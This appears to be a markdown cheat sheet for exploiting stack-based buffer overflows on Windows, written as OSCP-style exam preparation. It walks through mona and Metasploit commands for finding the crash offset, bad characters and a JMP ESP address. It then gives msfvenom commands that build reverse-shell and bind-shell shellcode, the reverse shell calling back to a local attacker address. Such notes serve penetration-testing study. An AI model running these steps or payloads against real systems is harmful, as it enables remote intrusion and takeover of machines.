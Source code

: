 # Buffer Overflow

## 1 - Find the access violation

```
A * 30000
```
> Access Violation 41414141

## 2 - Find EIP using pattern (-q EIP address)

Generate pattern
```
!mona pattern_create 30000
```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 30000 > bufferoverflow_pattern.txt
```

Search for pattern
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP address> -l 30000
```
```
!mona findmsp
```
```
!mona pattern_offset <EIP address>
```

## 3 - Find bad char

```
!mona bytearray -cpb '\x00\x09\x0a’
```
```
!mona compare -f C:\logs\<app>\bytearray.bin -a 000FF730
```

## 4 - Find JMP ESP (this in case shellcode is in ESP) 
- Address cannot have bad char
- Consider MSVCP60.dll and kernetl32.dll

```
!mona jmp -r ESP
```

## 5 - Create shell code without bad char

reverse shell
```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=192.168.110.128 LPORT=4444 -b '\x00\x09\x0a' -f python -v shell
```
bind shell
```
msfvenom -a x86 --platform windows -p windows/shell_bind_tcp LPORT=4444 -e x86/alpha_mixed -b '\x00' BufferRegister=ESP -f python -v shell
```

## 6 - Place shell later after ESP

```
buffer += b'\x90' * 10
```

## 7 - Run exploit

Excute the exploit


## Links
 - [OSCP Stack Based Buffer Overflow Cheat Sheet](https://nop-blog.tech/oscp/bof-cheatsheet/)
 - [Msfvenom All in One cheatsheet](https://blog.certcube.com/oscp-msfvenom-all-in-one-cheatsheet/)